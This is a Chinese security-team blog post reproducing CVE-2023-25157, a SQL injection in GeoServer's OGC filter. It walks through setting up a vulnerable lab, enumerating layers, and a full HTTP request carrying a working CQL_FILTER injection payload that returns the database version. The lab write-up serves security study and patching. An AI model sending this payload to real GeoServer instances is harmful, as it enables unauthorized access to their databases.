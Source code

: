 #  CVE-2023-25157：GeoServer OGC Filter SQL注入漏洞   
原创 lyc  Timeline Sec   2023-12-18 18:10  
  
> 关注我们❤️，添加星标🌟，一起学安全！作者：lyc@Timeline Sec 本文字数：1296 阅读时长：2～4min 声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
GeoServer是OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作，通过 GeoServer 可以比较容易的在用户之间迅速共享空间地理信息。  
## 0x02 漏洞概述  
  
**漏洞编号：CVE-2023-25157**在2.22.1和2.21.4之前版本中，在开放地理空间联盟（OGC）标准定义的过滤器和函数表达式中发现了一个SQL注入问题，未经身份验证的攻击者可以利用该漏洞进行SQL注入，执行恶意代码。  
## 0x03 影响版本  
  
geoserver<2.18.72.19.0<=geoserver<2.19.72.20.0<=geoserver<2.20.72.21.0<=geoserver<2.21.42.22.0<=geoserver<2.22.2  
## 0x04 环境搭建  
  
GeoServer的环境搭建有多种选择，这里下载Windows版。  
  
下载链接：https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.0/GeoServer-2.22.0-winsetup.exe/download  
  
下载好之后，开始安装  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSulfcYicQk6Nzuia5iaSOgJMCM84LCSfyickJ6VeyMnxYQzyVzySmUIoVIeQ/640?wx_fmt=png&from=appmsg "")  
  
安装此服务之前，还需要配置好java环境，否则不能进行下一步的环境安装。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSuNWibw88uJiaibQOBZJOWbqRkhJEic3INbMqHcCibWBSQFIOeJkicAPkYLltQ/640?wx_fmt=png&from=appmsg "")  
  
服务的管理员账号密码如下，可以按照默认的来，也可以自行修改。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSuKlZb21dplLhiaian00DbbRa0zMkkWGMKLgY7viaCx5ia1Q6oNSxzCfx5eA/640?wx_fmt=png&from=appmsg "")  
  
这里默认设置端口是8080，可能会冲突，可以自己进行配置修改，这里设置端口为9999。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSugEqLricZYxSz7VIcNooibMfHyXgGIJlEh8u6dh5VtX0v7AfVHsYfTKHA/640?wx_fmt=png&from=appmsg "")  
  
等一切安装完毕之后，GeoServer默认安装路径如下：C:\Program Files\GeoServer\bin，点击startup.bat，运行脚本，脚本运行之后，cmd不要关闭。问。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSudXBNhKIgZzO0Tr7DFRj39PUUcwiaY2YgDibkA1uGiaX8QNedP2gqXMAvA/640?wx_fmt=png&from=appmsg "")  
  
访问如下网址：http://localhost:9999/geoserver/web/，这里端口为9999是因为上面配置的时候是9999，真正访问的时候，需要根据自己配置的端口进行访。并且输入上面的账号密码：admin/geoserver，登陆进入Geoserver  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSuKJdyFIicibOib0hgKLbbTGDQ7hvgf6BctYFicIyGz4yu7n4ERrEveKSHDg/640?wx_fmt=png&from=appmsg "")  
  
成功登陆进入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSuhboPLaVdFCGZJnbJaMTQpuNibrzwVick4HJJBmTlokUicFhnVFw8ByjCg/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
  
在进行SQL注入漏洞复现之前，首先需要获取地理图层列表信息，这个信息是SQL注入payload中一个必需的参数。  
  
通过以下路径访问，获取地理图层列表信息。  
```
http://192.168.254.170:9999/geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities

```  
  
<Name>标签中的信息，就是地理图层列表。这里选择ne:populated_places作为地理图层列表信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSukul8jOD02bh4yyEIolqHtGAFIBbUpGJ2MM7bOGXCnuueIFR2GOnxsQ/640?wx_fmt=png&from=appmsg "")  
  
接着访问以下路径，获取图层的属性名称  
```
http://192.168.254.170:9999/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=ne:populated_places&maxFeatures=1&outputFormat=json

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSuH58ODzYA3kr5zKp5bLYSiawaL0SibicNCK13QrQLiapICkPuw0icJdNw3aQ/640?wx_fmt=png&from=appmsg "")  
  
最终payload如下：  
```
GET /geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=gwpd:chinamap11&CQL_FILTER=strStartsWith%28Vatican City%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+INTEGER%29%29+--+%27%29+%3D+true HTTP/1.1
Host: 192.168.254.170:9999
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=1p6q6kkghu4bg1x04chtdvm369
Connection: close

```  
  
查询到了数据库的版本信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSubxq4qm7rHxUEoLQvKD2lIjf9uZp0YWHgMicWc8G9KwyegHXYwmoWricA/640?wx_fmt=png&from=appmsg "")  
## 0x06 修复方式  
  
官方已经发布最新版本，可以下载更新至最新版本。  
## 参考链接  
  
https://blog.csdn.net/weixin_48539059/article/details/132622485  
  
[https://mp.weixin.qq.com/s/5bTlz3MiUU-NUGdvxPfnMg](https://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247487190&idx=1&sn=45f0e3e862face906488fb2408abd3f9&scene=21#wechat_redirect)  
  
  
https://www.freebuf.com/vuls/370086.html  
  
**推荐服务**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/VfLUYJEMVsjT9XsXuYuJ5o1RJZ95l1HcXV5tiaKbHOU6uPrSgotxOAWBYGLbxmjWj4bib26lsefdkTR94Zj8Djdw/640?wx_fmt=gif "")  
  
  
**历史漏洞**  
  
geoserver-default-loginCVE-2023-43795CVE-2023-25157CVE-2022-24816CVE-2021-40822  
  
  
**后台功能**  
  
回复【  
1  
】领取新人学习资料回复【  
2  
】进入漏洞查询功能回复【  
3  
】获取加群方式回复【  
4  
】领取安全电子书籍  
  
回复【  
5  
】进入SRC-QQ交流群  
  
  
**商务合作**  
  
[Timeline Sec团队可合作项目清单](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247491949&idx=1&sn=5fd239d21a4a07859707b810c2a431ab&chksm=903ac79da74d4e8bf12c52fa3f3a0b14a9fbca35472362d4c40a4d9a6968a16e8d449896889c&scene=21#wechat_redirect)  
  
  
  
